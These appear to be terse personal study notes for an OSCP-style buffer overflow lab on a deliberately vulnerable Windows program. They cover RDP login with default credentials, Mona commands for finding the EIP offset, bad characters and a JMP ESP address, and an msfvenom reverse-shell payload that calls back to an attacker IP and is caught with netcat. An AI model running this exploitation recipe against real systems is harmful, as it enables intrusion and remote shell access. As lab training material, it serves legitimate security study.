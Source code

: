 
```xfreerdp /u:admin /p:password /cert:ignore /v:<rhost>``` 

```sudo xfreerdp /dynamic-resolution +clipboard /cert:ignore /u:admin /p:password /v:<rhost>```

open software as administrator / open file vulnerableapps>>oscp>>oscp.exe and run 

```!mona config -set workingfolder c:\mona\%p```

python3 [[bufferOverflow/Mona/fuzzer.py]]  // get and add 400 bytes    

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <total bytes> ``` 

```msf-pattern_create -l <total bytes>```

create and update payload

run payload python

```!mona findmsp -distance <bytes>```   //this will give us our EIP offset (cpu view)

update offset and rtn variable BBBB and erase payload

run server run exploit ==verify== that EIP got writen in register 424242   


Finding Bad Characters

1- generate bitesArray with mona excluding x00  // !mona bytearray -b "\x00"
2- run server 

1- generate biteArray with python          	//  makebadchar.py  \x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff

2- update exploit script with new payload
3- run exploit    // note ESP address

1- compare with mona				// !mona compare -f C:\mona\oscp\bytearray.bin -a `<address>`
2- update mona with bad characters , 		// !mona bytearray -b "\x00"
3- run server , 

1- update python script and run script
2- update payload in exploit
3- run exploit

1- compare with mona with new EIP register	//  !mona compare -f C:\mona\<oscp>\bytearray.bin -a ```<address>```  should say unmodified (you might have to add more bad cha)
2- get jump point  		 		//  !mona jmp -r esp -cpb 
3- run server , // below hooray we get bad char

!mona jmp -r esp -cpb 				// add bad characters	// we copy address from jump point

625011AF  becomes "\xaf\x11\x50\x62" 		//we put that in the return variable of exploit

```msfvenom -p windows/shell_reverse_tcp LHOST=10.9.4.45 LPORT=9500 -b '\x00\xaf\x11\x50\x62' EXITFUNC=thread -f python -v payload```

we add padding "\x90" * 16 


open a netcat on lport  

run exploit, and nc should pick it right up

















